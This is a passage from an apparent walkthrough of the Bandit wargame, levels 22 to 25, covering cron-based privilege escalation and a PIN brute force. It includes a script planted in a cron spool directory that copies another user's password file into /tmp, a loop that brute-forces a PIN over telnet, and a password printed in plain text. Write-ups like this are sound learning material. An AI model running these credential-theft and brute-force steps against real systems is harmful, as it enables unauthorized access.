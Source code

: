 The user's `crontab` writes the contents of their password file to a file readable by everyone in `/tmp`.

```bash
cat /etc/cron.d/cronjob_bandit22

cat /usr/bin/cronjob_bandit22.sh 
```

## Level 23 {#level-23}

The user's `crontab` writes the contents of their password file to a file readable by everyone in `/tmp`.

```bash
cat /etc/cron.d/cronjob_bandit23 

cat /usr/bin/cronjob_bandit23.sh 

echo I am user bandit23 | md5sum | cut -d ' ' -f 1

cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

## Level 24 {#level-24}

The `crontab` runs every minute, executes scripts in `/var/spool/bandit24`, then removes them. If the script is owned by `bandit23`, it waits 60 seconds to kill the script.

1. Write this oneliner to a script and make it executable.

```bash
vi 24.sh
chmod +x 24.sh
```

```bash
#! /usr/bin/env bash

cat /etc/bandit_pass/bandit24 | tee /tmp/path/bandit24
```

2. Replace `/tmp/path` with whatever was created by `mktemp -d`
3. Copy `24.sh` to `/var/spool/bandit24` and wait for the next minute

## Level 25 {#level-25}

```bash
#! /usr/bin/env dash

# Execute the script, then pipe to telnet
# /path/to/script | telnet $host $port

# Wait for a telnet prompt
sleep 1

# Iterate i from 0 to 10000 to brute force the PIN
n=0
while [ $n -le 10000 ]
do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $n"
    n=$((n + 1))
    # telnet closes the connection if there is no wait period between attempts
    sleep .1
done
```


[This page is licensed under a Creative Commons Attribution-NoDerivatives 4.0 International License.]: # 